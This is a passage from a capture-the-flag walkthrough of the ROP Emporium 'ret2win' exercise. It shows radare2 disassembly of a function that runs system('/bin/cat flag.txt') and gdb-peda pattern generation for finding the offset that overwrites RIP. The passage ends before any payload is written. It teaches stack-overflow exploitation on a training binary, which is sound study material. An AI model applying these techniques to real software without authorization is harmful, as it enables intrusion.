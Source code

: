 ```bash
0x00400840    4 101          sym.__libc_csu_init
0x004008b0    1 2            sym.__libc_csu_fini
0x004008b4    1 9            sym._fini
[0x00400650]> 

```
So, we have a `sym.ret2win`, `sym.pwnme` and a `sym.main` which will be our focus for the rest. Since it's a ROP challenge and checking the functions one by one with `pdf @sym.ret2win` in radare2 shell. 

```bash
[0x00400650]> pdf @sym.ret2win
/ (fcn) sym.ret2win 32
|   sym.ret2win ();
|           0x00400811      55             push rbp
|           0x00400812      4889e5         mov rbp, rsp
|           0x00400815      bfe0094000     mov edi, str.Thank_you__Here_s_your_flag: ; 0x4009e0 ; "Thank you! Here's your flag:" ; const char * format
|           0x0040081a      b800000000     mov eax, 0
|           0x0040081f      e8ccfdffff     call sym.imp.printf         ; int printf(const char *format)
|           0x00400824      bffd094000     mov edi, str.bin_cat_flag.txt ; 0x4009fd ; "/bin/cat flag.txt" ; const char * string
|           0x00400829      e8b2fdffff     call sym.imp.system         ; int system(const char *string)
|           0x0040082e      90             nop
|           0x0040082f      5d             pop rbp
\           0x00400830      c3             ret

```

We see that there is a string with **/bin/cat flag.txt** and a system function call of C, in case you don't know what `system` does, it executes the arguments as bash command. 

Since we want to jump to address `0x00400811` in order to execute above function which will print our flag. In order to execute this we need to find the offset that we need to overwrite the instruction pointer. In this case, it is a 64-bit ELF we have to find **RIP** if it was 32-bit ELF we had to find **EIP**. Let's try to create a pattern offset uding gdb.

```bash
robin@oracle:~/ROP-Emporium$ gdb ret2win
GNU gdb (Ubuntu 8.1-0ubuntu3) 8.1.0.20180409-git
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ret2win...(no debugging symbols found)...done.
gdb-peda$ pattern_create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ pattern_create 100 input
Writing pattern of 100 chars to filename "input"
gdb-peda$ r < input
Starting program: /home/robin/ROP-Emporium/ret2win < input
ret2win by ROP Emporium
64bits
```